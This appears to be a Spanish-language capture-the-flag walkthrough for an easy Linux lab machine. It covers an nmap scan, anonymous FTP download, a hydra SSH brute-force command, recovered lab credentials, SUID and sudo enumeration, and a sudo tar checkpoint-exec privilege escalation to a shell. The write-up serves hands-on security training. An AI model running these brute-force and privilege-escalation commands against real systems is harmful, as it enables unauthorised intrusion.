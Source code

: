 #Linux #Easy 
### Scan
```css
sudo nmap -p- --open -sCV -sS --min-rate 3000 -n -vvv -Pn 10.10.211.59
```
### 
```css
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.59 seconds
```
parece que tenemos conexión con el puerto 21 ftp de manera anónima (anonymous)
### Puerto 21 ftp
```c 
ftp anonymous@10.10.211.59

mget * (descarga todo el contenido en nuestro directorio)
```

### Con los archivos que hemos coseguido vamos a realizar un ataque de fuerza bruta contra el pueto ssh

```css 
	hydra -l <nombre_de_usuario> -P <ruta_al_archivo_de_contraseñas> ssh://<dirección_ip>:22
```

![[Pasted image 20240612140230.png]]

### Credenciales ssh
```c
	username: lin
	password: RedDr4gonSynd1cat3
```

# Enumeración básica sistema
```css
	find / -perm -4000 2>/dev/null
```
# Permisos sudo
```css
	sudo -l
```
# Permisos SUID
```css
 /bin/tar
```

### para escalar privilegios con el binario /bin/tar podemos ejecutar el comando (siempre que tengamos permisos sudo con el actual usuario)

```c
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```